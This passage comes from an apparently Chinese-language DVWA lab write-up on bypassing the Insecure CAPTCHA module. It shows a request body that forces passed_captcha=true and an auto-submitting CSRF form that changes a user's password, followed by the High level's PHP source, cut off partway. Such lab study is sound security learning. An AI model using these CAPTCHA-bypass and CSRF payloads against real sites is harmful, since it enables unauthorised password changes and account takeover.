 ```php
}

?> 
```
这里对passed_captcha进行了验证[![cDAHRe.png](https://z3.ax1x.com/2021/04/12/cDAHRe.png)](https://imgtu.com/i/cDAHRe)
#### payload1
    step=2&password_new=123&password_conf=123&Change=Change&passed_captcha=true
[![cDEKWF.png](https://z3.ax1x.com/2021/04/12/cDEKWF.png)](https://imgtu.com/i/cDEKWF)

修改成功
[![cDEaWD.png](https://z3.ax1x.com/2021/04/12/cDEaWD.png)](https://imgtu.com/i/cDEaWD)
#### payload2
```html
<html>       

<body onload="document.getElementById('transfer').submit()">       

  <div>      

    <form method="POST" id="transfer" action="http://192.168.153.130/dvwa/vulnerabilities/captcha/">       

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">        

		<input type="hidden" name="passed_captcha" value="true">        

		<input type="hidden" name="step" value="2">       

		<input type="hidden" name="Change" value="Change">        

	</form>        

  </div>

</body>        

</html>
```

## High
#### 源码分析

```php
<?php

if( isset( $_POST[ 'Change' ] ) ) {
    // Hide the CAPTCHA form
    $hide_form = true;

    // Get input
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];

    // Check CAPTCHA from 3rd party
    $resp = recaptcha_check_answer(
        $_DVWA[ 'recaptcha_private_key' ],
        $_POST['g-recaptcha-response']
    );

    if (
```